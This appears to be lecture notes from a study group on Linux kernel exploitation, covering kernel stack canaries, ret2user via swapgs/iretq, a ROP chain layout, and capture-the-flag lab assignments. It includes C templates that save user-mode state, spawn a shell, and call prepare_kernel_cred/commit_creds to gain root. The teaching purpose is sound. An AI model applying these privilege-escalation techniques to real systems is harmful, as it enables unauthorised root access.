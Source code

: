 ```yaml
---

title: Meet-3 -> Linux Kernel ROP, (Ret2User)
author: th3f0x
styles:
  style: gruvbox-dark

---
```


## Overview

- [Overview](#overview)
- [Kernel Stack Canaries](#kernel-stack-canaries)
- [Ret2User](#ret2user)
- [Challenges](#challenges)
- [Misc Tips](#misc-tips)
- [Home Assignment](#home-assignment)
- [Links](#links)

---

## Kernel Stack Canaries

- This is exactly the same as stack canaries on userland. It is enabled in the
kernel at compile time and cannot be disabled.

- Just like in userspace exploitation, this value needs to be leaked by some
  method in order to successfully perform a stack-based ROP attack

---

## Ret2User

- When we overwrite the return address during kernel stack buffer overflow exploitation, we basically corrupt the natural path back to userspace mode and userspace code execution. In order to successfully finish the exploitation, we must return to the userspace code somehow. This is acheived via use of 2 instructions:
  - `swapgs`: The purpose of this instruction is to also swap the GS register between `kernel-mode` and `user-mode`
  - `iretq`: Basically return from a system call back into user space, expecting some things to be setup on the stack, in order to return to the right location. It expects:
    - `RIP`: where to resume execution from, after returning to user-mode
    - `CS`
    - `RFLAGS`
    - `SP`: stack pointer: some valid read/write location in userspace
    - `SS`

  - The rest of the values can just be taken from the program running in user-mode at any time and used directly.

- Therefore ROP chain looks like:

```
<padding>
<exploit chain: using things like `prepare_kernel_cred` and `commit_creds`>
<swapgs; ret gadget>
<iretq gadget>
<RIP>
<CS>
<RFLAGS>
<SP>
<SS>
```

---

## Challenges

- Lab 6 (from [How2Kernel](https://github.com/R3x/How2Kernel) Repository)
  - Files: `https://github.com/R3x/How2Kernel/Lab6`

---

## Misc Tips

- Usually we use some sort of template for making the exploitation process much easier:

```c
struct TrapFrame{
    void* rip;
    unsigned long user_cs;
    unsigned long user_rflags;
    void* rsp;
    unsigned long user_ss;
} __attribute__((packed));

struct TrapFrame tf;

// get shell
static void shell() {
    puts("[*] Spawning shell");
    system("/bin/sh");
    exit(0);
}


static void save() {
    asm(
        "xor %rax, %rax;"
        "mov %cs, %ax;"
        "pushq %rax; popq tf+8;"
        "pushfq; popq tf+16;"
        "pushq %rsp; popq tf+24;"
        "mov %ss, %ax;"
        "pushq %rax; popq tf+32;"
    );
    tf.rip = (&shell);
    // tf.rsp -= 1024;
    puts("[*] Saved state");
}

int main(void) {
    .
    .
    .
    save()

    // <exploit using `tf` struct's data itself
    .
    .
    .
}

```

or

```c

unsigned long user_cs, user_ss, user_rflags, user_sp;

void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}

int main(void) {
    .
    .
    .

    save_state()

    // <exploit using the values from `save_state`, and any required rsp we want manually>
    .
    .
    .
}

```

- In case, SMEP is disabled, we can use a user-defined function as well in the ROP chain:

```c
// using function pointers to call kernel-function
void get_root() {
    void* (*prepare_kernel_cred)(int) = 0xffffffffab67f810;
    void (*commit_creds)(void*) = 0xffffffffab67f4e0;
    commit_creds(prepare_kernel_cred(0));
}

// or, using inline assembly
void get_root() {
    __asm__(
        ".intel_syntax noprefix;"
        "mov r13, 0xffffffffab67f810;"
        "mov rdi, 0;"
        "call r13;"
        "mov rdi, rax;"
        "mov r13, 0xffffffffab67f4e0;"
        "call r13;"
        ".att_syntax;"
    );
}

```

---

## Home Assignment

- Try to read some portions from the [links](#links)
- Try to solve the lab by yourself once as well
- Try to solve the challenge `kernel-rop` without reading the [Good blog series on kernel exploitation](https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/)
  in the [Links](#links) section, which basically serves as a writeup for the
  challenge. Read the post only after trying out the challenge yourself.
  - Files: `kernel-rop-bf9c106d45917343.tar.xz`

---

## Links

- [Good blog series on kernel exploitation](https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/)
- [Kernel Challenges Basic Info](https://web.archive.org/web/20191019131252/http://www.auxy.xyz/modern%20binary%20exploitation/2019/06/10/Linux-Exp-Tutorial.html)
